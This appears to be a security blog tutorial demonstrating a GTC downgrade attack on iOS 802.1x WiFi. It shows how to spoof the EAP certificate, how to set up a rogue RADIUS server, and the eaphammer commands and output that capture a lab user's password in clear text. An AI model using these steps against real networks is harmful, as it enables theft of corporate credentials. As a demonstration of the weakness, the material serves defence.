Capture WiFi Credentials with GTC Downgrade
Many security best practices discourage using corporate credentials such as Active Directory for connecting to wireless network.
In this post, I'll demonstrate just how easy it is for an attacker to capture iPhone user corporate credentials in clear text using GTC downgrade attack
Background
There are a number of protocols available for 802.1x authentication. However, by far, the two most popular ones are EAP-TLS and EAP-PEAP.
EAP-PEAP is a tunneling protocol. It provides the ability to establish a secure TLS tunnel between the 802.1x Supplicant (client) and RADIUS Server. Inside this tunnel, there are several authentication methods available. By far, the most common one is MSCHAPV2.
MSCHAPV2
MSCHAPV2 involves a challenge and response conversation between the supplicant and a directory capable of NTLM. In vast, majority of cases, the directory is Active Directory. RADIUS Server acts a proxy to pass these challenge and response packets back and forth. Another important point is that the clear text password is never transmitted inside the PEAP tunnel.
There are attacks on MSCHAPV2 available. However, since the clear text is not captured, cracking the password involves brute force. As with any brute force attacks, the time it takes to crack the password will vary widely depending on password complexity
Generic Token Card (GTC)
A little known protocol that can be used with PEAP is GTC. A small fraction of companies use this protocol to support One Time Token (OTP) authentication to connect to an 802.1x network, for example RSA Token.
To support OTP authentication, the authentication server must have access to the clear text password.
As a result, when a user supplies the password, that password is transmitted to the RADIUS Server in clear text.
GTC Downgrade Attack
This attack works by configuring the RADIUS server to indicate to the supplicant that it only supports PEAP-GTC and not any other methods. This induces the supplicant to send the password in clear text.
Ineffective for Windows and Android
For Windows and Android, when we configure the supplicant for PEAP, we must choose which authentication protocol is used. In fact, Windows, does not even support GTC.
For Android and Windows, GTC downgrade attack is not possible because the supplicant will reject the GTC method received from the RADIUS server.
Effective for Apple iOS
It is a different story for Apple iOS. Apple chose simplicity of the GUI interface over security. As a result, the 802.1x supplicant does not have the option to select authentication method. In fact, there is not even a mention of PEAP. The GUI simply shows Username and Password fields.
Under the hood, however, the supplicant does support both MSCHAPV2 and GTC. The supplicant will prefer MSCHAPV2 over GTC when both options are presented by the RADIUS Server. However, if we remove the support for MSCHAPV2 from the RADIUS Server, the supplicant happily switches to GTC and transmits saved credentials in clear text.
Setup
Corporate Network
In this simulated corporate network, I'm using Cisco Wireless LAN Controller (WLC) which points to Cisco ISE as the RADIUS server. Cisco ISE, in turn, is joined into Active Directory.
Attacker Tools - Easy way
To simulate this attack, I will first demonstrate how to do it using another Cisco ISE deployment and point the same WLC to this other deployment.
Attacker Tools - Hacker way
I will also demonstrate how to execute this attack using eaphammer tool on Kali Linux if you have the right hardware.
Normal Connection
In this section, we will see what the normal experience connecting to the legitimate corporate network is.
Configuration
Let's say we have a user name John. His username in AD is john and password is SuperSecure123!
The EAP certificate on ISE is as follows. We can see a two-CA hierarchy

User Connection
We're going to connect to network named eap1

When we click on it, we're asked for username and password

Next, we're prompted to accept the EAP certificate. Note what the user sees on this screen. We have the subject name of eap.ciscodemo.net and issued by demo-sub-ca.

We can click on details and see even more information. Most users will likely not even click that.

And finally, we're connected

Note that from here on, the mobile device will connect to this network without any prompts unless iPhone detects that the EAP certificate changed. Of course if the credentials change, a prompt will ask for that as well.
GTC Downgrade - Easy Way
In this section, I'll show how you can simply use another RADIUS server to execute this attack. This is not the method that attackers would normally use, but it's good for demonstration purposes.
EAP Certificate
As an attacker, we don't have access to the original EAP certificate with its associated private key.
Note that the iPhone did not show the full chain, so we don't need to recreate that chain. All we need to do is create a spoofed Root CA that has the same subject line that the user sees on the iPhone screen.
We're going to create that using https://hohnstaedt.de/xca/index.php

Next, we need to create our spoofed EAP certificate.

This is what our certificate looks like in XCA

In XCA, we can export the certificate and its private key and install it in our "hacker" ISE node.
This is what it looks like in ISE. I'm using a different ISE server than the one used for the normal connection.

ISE Configuration
Allowed Protocols
We need to configure ISE to only allow PEAP with EAP-GTC

RADIUS Token Server
In order to capture the clear text password, we need to create a fake RADIUS Token server. This can be any IP address and doesn't need to be the actual server. Shared Secret on this screen is cisco.

Policy Set
In our Policy Set, we need to set the Allow Protocols to GTC

Policy Rules
Authentication policy points to the RADIUS Token server we created earlier. Authorization policy is set to PermitAccess, but it would not reach there since our RADIUS Token server is not valid. There are ways to override it to allow the user to actually associate to the SSID to perform additional MITM attacks, but that's outside the scope of this document

Executing GTC Downgrade
Packet Capture
In ISE, we start packet capture for the IP address of our spoof RADIUS Token Server

Client Connection
We click on our our spoofed network.

Since EAP certificate changed, iOS will diligently ask the user to Trust it. However, to the end user, the spoofed certificate will look identical as in the normal connection.

It also looks deceivingly similar in details. The Serial Number is in a different format, but that is near impossible to spot and we can also spoof that with other tools.
It is important to note that iPhone will not prompt the user to re-enter the username and password.

Since the authentication is going to a non-existing RADIUS Token server, the connection will ultimately fail.

Getting the password
In order to retrieve the clear text password, we need to enter the RADIUS Shared secret we used for the RADIUS Token server in Wireshark Preferences

We can see the clear text password of the end user.

GTC Downgrade - Hacker Way
Setup
For hardware, I'm using an old Lenovo laptop with a USB RT2870 adapter. This attack can also be run using a VM with this USB adapter connected to it.
For this setup, I'm using Kali rolling release dated in February 2023. You can use a regular Kali download, but be sure to do apt update & apt upgrade.
We first download and install eaphammer tool from https://github.com/s0lst1c3/eaphammer. This process takes a few minutes.
┌──(root㉿kali)-[~]
└─# git clone https://github.com/s0lst1c3/eaphammer.git
Cloning into 'eaphammer'...
remote: Enumerating objects: 3556, done.
remote: Counting objects: 100% (134/134), done.
remote: Compressing objects: 100% (76/76), done.
remote: Total 3556 (delta 63), reused 114 (delta 56), pack-reused 3422
Receiving objects: 100% (3556/3556), 6.03 MiB | 9.65 MiB/s, done.
Resolving deltas: 100% (1414/1414), done.
┌──(root㉿kali)-[~]
└─# cd eaphammer
┌──(root㉿kali)-[~/eaphammer]
└─# ./kali-setup
Important: it is highly recommended that you run "apt -y update" and "apt -y upgrade" prior to running this setup script. Do you wish to proceed? Enter [y/N]: y
-------------------------- SNIP ---------------------------
[*] complete!
┌──(root㉿kali)-[~/eaphammer]
└─# At the time of this writing in February of 2023, kali comes with python 3.10. However, eaphammer is hardcoded to version 3.8. We need to change the version of python in the first line in eaphammer from python3.8 to python3.
┌──(root㉿kali)-[~/eaphammer]
└─# head -1 eaphammer
#!/usr/bin/env python3.8
┌──(root㉿kali)-[~/eaphammer]
└─# vi eaphammer
┌──(root㉿kali)-[~/eaphammer]
└─# head -1 eaphammer
#!/usr/bin/env python3Importing Certificate
The first step in executing EAP attacks is to install our cloned certificate
┌──(root㉿kali)-[~/eaphammer]
└─# ./eaphammer --cert-wizard import --server-cert eap.pem --ca-cert demo-sub-ca.crt --private-key eap.key
.__
____ _____ ______ | |__ _____ _____ _____ ___________
_/ __ \\__ \ \____ \| | \\__ \ / \ / \_/ __ \_ __ \
\ ___/ / __ \| |_> > Y \/ __ \| Y Y \ Y Y \ ___/| | \/
\___ >____ / __/|___| (____ /__|_| /__|_| /\___ >__|
\/ \/|__| \/ \/ \/ \/ \/
A nice shiny new access point.
Version: 1.13.5
Codename: Power Overwhelming
Author: @s0lst1c3
Contact: gabriel<<at>>solstice(doT)sh
[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
Case 1: Import all separate
[CW] Ensuring server cert, CA cert, and private key are valid...
eap.pem
eap.key
demo-sub-ca.crt
[CW] Complete!
[CW] Loading private key from eap.key
[CW] Complete!
[CW] Loading server cert from eap.pem
[CW] Complete!
[CW] Loading CA certificate chain from demo-sub-ca.crt
[CW] Complete!
[CW] Constructing full certificate chain with integrated key...
[CW] Complete!
[CW] Writing private key and full certificate chain to file...
[CW] Complete!
[CW] Private key and full certificate chain written to: /root/eaphammer/certs/server/eap.ciscodemo.net.pem
[CW] Activating full certificate chain...
[CW] Complete!
Executing Downgrade Attack
eaphammer makes easy to launch many attacks including GTC Downgrade. We're going to run the command documented here: https://github.com/s0lst1c3/eaphammer/wiki/VIII.-Attacking-WPA-EAP-and-WPA2-EAP-Networks#viii2d-explicit-gtc-downgrade-attack
Once the user clicks on the SSID on their phone, eaphammer will display the credentials.
──(root㉿kali)-[~/eaphammer]
└─# ./eaphammer --interface wlan1 --negotiate gtc-downgrade --auth wpa-eap --essid eap1 --creds
.__
____ _____ ______ | |__ _____ _____ _____ ___________
_/ __ \\__ \ \____ \| | \\__ \ / \ / \_/ __ \_ __ \
\ ___/ / __ \| |_> > Y \/ __ \| Y Y \ Y Y \ ___/| | \/
\___ >____ / __/|___| (____ /__|_| /__|_| /\___ >__|
\/ \/|__| \/ \/ \/ \/ \/
A nice shiny new access point.
Version: 1.13.5
Codename: Power Overwhelming
Author: @s0lst1c3
Contact: gabriel<<at>>solstice(doT)sh
[?] Am I root?
[*] Checking for rootness...
[*] I AM ROOOOOOOOOOOOT
[*] Root privs confirmed! 8D
[*] Saving current iptables configuration...
[*] Reticulating radio frequency splines...
[*] Using nmcli to tell NetworkManager not to manage wlan1...
100%|█████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:01<00:00, 1.00s/it]
[*] Success: wlan1 no longer controlled by NetworkManager.
[*] WPA handshakes will be saved to /root/eaphammer/loot/wpa_handshake_capture-2023-02-15-11-02-46-wPASAWxoNXAfp6QLwDxgd0UK5wc3cWoq.hccapx
[hostapd] AP starting...
Configuration file: /root/eaphammer/tmp/hostapd-2023-02-15-11-02-46-jtEQPI3fpHNA2hXjFyROVtRZAxbYHiFm.conf
wlan1: interface state UNINITIALIZED->COUNTRY_UPDATE
Using interface wlan1 with hwaddr 00:11:22:33:44:00 and ssid "eap1"
wlan1: interface state COUNTRY_UPDATE->ENABLED
wlan1: AP-ENABLED
Press enter to quit...
wlan1: STA 42:68:ed:3c:36:83 IEEE 802.11: authenticated
wlan1: STA 42:68:ed:3c:36:83 IEEE 802.11: associated (aid 1)
wlan1: CTRL-EVENT-EAP-STARTED 42:68:ed:3c:36:83
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
wlan1: CTRL-EVENT-EAP-RETRANSMIT 42:68:ed:3c:36:83
GTC: Wed Feb 15 11:03:12 2023
username: john
password: SuperSecure123!
wlan1: CTRL-EVENT-EAP-FAILURE 42:68:ed:3c:36:83
wlan1: STA 42:68:ed:3c:36:83 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan1: STA 42:68:ed:3c:36:83 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan1: STA 42:68:ed:3c:36:83 IEEE 802.11: disassociated
wlan1: STA 42:68:ed:3c:36:83 IEEE 802.11: deauthenticated due to local deauth request